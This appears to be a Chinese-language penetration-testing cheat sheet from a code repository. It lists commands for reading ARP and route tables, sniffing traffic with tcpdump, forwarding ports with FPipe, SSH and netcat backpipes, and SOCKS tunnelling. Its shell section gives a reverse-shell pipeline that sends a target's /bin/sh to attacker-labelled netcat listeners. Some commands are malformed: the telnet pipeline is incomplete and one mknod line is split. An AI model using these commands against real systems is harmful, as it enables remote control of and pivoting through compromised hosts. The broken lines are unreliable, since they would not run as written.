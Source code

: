 ### 查看ARP以及路由表信息

```c
arp -e
route
/sbin/route -nee
```

### 嗅探数据包

```c
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```

### 获得一个Shell与系统进行交互

[Linux shells using built-in tools](http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
```c
nc -lvp 4444 # Attacker. 输入（命令）
nc -lvp 4445 # Attacker. 输出（结果）
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445 // 在目标系统上. 使用攻击者的 IP!
```

### 端口转发
[port-forwarding-with-rinetd-on-debian-etch](https://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch)

```c
# fpipe
# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

#ssh
# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port

//mknod
# mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod
backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc
localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```

### 建立SSH隧道
```c
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```
